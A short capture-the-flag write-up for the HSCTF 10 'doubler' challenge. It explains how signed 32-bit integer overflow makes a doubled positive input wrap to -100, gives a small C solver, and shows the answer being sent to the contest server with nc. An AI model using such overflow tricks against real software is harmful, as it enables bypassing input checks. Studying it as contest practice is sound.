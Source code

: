 ```yaml
---
title: HSCTF 10 - Doubler
date: Wed Jun  7 04:23:37 PM +04 2023
categories: [Writeup]
tags: [ctf,hsctf2023,pwn]
---
```


## Description

pwn/doubler (by hmmm) | 392 points

A very simple program.

`nc doubler.hsctf.com 1337`

Downloads:  [chall](https://hsctf-10-resources.storage.googleapis.com/uploads/1419382e0e052a5b4ccf31d9f6cc1a858d02b168013629b538fffbf5e0e3cd20/chall),  [chall.c](https://hsctf-10-resources.storage.googleapis.com/uploads/d7da0dd8713bef707ea1c835be05d858a1417677eb19b7734046df3f2b60c113/chall.c)

## Analysis

Program wants value of `-100`, but input cannot be negative number.

Since program is written in C (Statically typed language), we can cause an overflow of type int which when overflowed will cycle to lowest number (negative 2**31)  

## Solution

```c
#include <stdio.h>
#include <limits.h>

int main() {
    int max = INT_MAX, doubled;
    for (int i=0; i < 100; i++) {
        doubled = (max - i) * 2;
        if (doubled == -100) {
            printf("%d\n", max - i);  
            break;
        } 
    }
    
    return 0;
}
```
<small>Note: You can use an [Online Compiler](https://www.programiz.com/c-programming/online-compiler/) to run the program</small>

```sh
└─$ gcc solve.c -o solve
./solve
{OUTPUT}

└─$ nc doubler.hsctf.com 1337
Input: {OUTPUT}
Doubled: -100
flag{REDACTED}
```
